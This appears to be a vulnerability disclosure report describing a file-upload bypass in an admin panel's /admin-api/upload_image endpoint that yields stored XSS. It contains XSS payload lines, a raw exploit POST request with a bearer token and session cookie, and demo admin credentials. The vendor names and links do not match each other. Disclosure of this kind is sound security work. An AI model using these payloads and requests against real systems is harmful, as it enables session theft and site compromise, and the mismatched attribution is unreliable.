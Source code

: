 ## Vulnerability Title: /admin-api/upload_image File Upload Bypass Lead to Stored XSS Vulnerability

- #### Vulnerability Type: /admin-api/upload_image File Upload Bypass Lead to Stored XSS Vulnerability
- #### Vendor Homepage: [https://www.emlog.net/](https://owladmin.com/site)
- #### Software Link: [https://github.com/emlog/emlog](https://github.com/slowlyo/owl-admin)
- #### Affected Software/Version: v3.5.7

## Application Demo and credentials

- URL   
[https://demo.emlog.cn/admin/account.php?action=signin](http://demo.owladmin.com/admin#/login)    
username:admin   
password:admin   

## Technical Details & Exploit:
- Location
  <img width="1356" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/95de1913-107f-4e5a-8d22-de66dbdce703">

  Upload a legitimate jpg and block the packet
  <img width="1031" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/e0f950f3-a585-42c3-b60d-6af1627ff405">
  Changing the filename suffix directly here is useless
  <img width="1023" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/865976a4-9582-4e7e-8599-8e52ca0283ea">
  However, when we change the contents of the file to specific code, it can bypass and cause xss vulnerabilities
  <img width="1048" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/c8c27613-6077-45dc-aa2e-e8b57b9828b3">
  payload：
  ```
  <img src=1 onerror=alert(console.log)>
  <ImG sRc=x onerRor=alert(1);>
  <svg><script>alert(1)</script>
  ```
  Concatenate the contents of the returned package into this url
  ```
  http://demo.owladmin.com/storage/images/[response_value].html
  ```
  <img width="1085" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/1f529dd0-2079-4223-937f-0e1734d3a6fa">
  Below is the vulnerability packet：
  ```
  POST /admin-api/upload_image? HTTP/1.1
Host: demo.owladmin.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Bearer 2890|CP3t2YpOcffkPKRGBV69ksHsAjQorKkLm4Ap43lP
Content-Type: multipart/form-data; boundary=---------------------------33414486592786013281336154478
Content-Length: 314
Origin: http://demo.owladmin.com
Sec-GPC: 1
Connection: close
Referer: http://demo.owladmin.com/admin
Cookie: owl_amdin_demo_session=eyJpdiI6IjB5M1RrTzlnY0doRjM3SHNEd0h4L1E9PSIsInZhbHVlIjoialk1b2ZBVDV6ZG1WeDFHSWNaa3M4KzkrMnp2L0NNNkV4bk1lV2ZqZVlUbnBEMzhhS0ZXa2JZWnJScCtGMnRKMnh0dmhhWTQ4V1d2c2Y4WXk4RExQRm94cnBGUUZWMi9YK25KVmttbjdPNEJKRjlORnJ4allVR3k1Nm1Lbm4wOG4iLCJtYWMiOiI2MmM4NGIyNmNiY2ZlZmZkNzZiODgyMGY0MTJkZTVjMTBlZWYyZmFiY2RjYjU3MzdhMTE4ODg4OTBlMjIxNTY2IiwidGFnIjoiIn0%3D

-----------------------------33414486592786013281336154478
  ```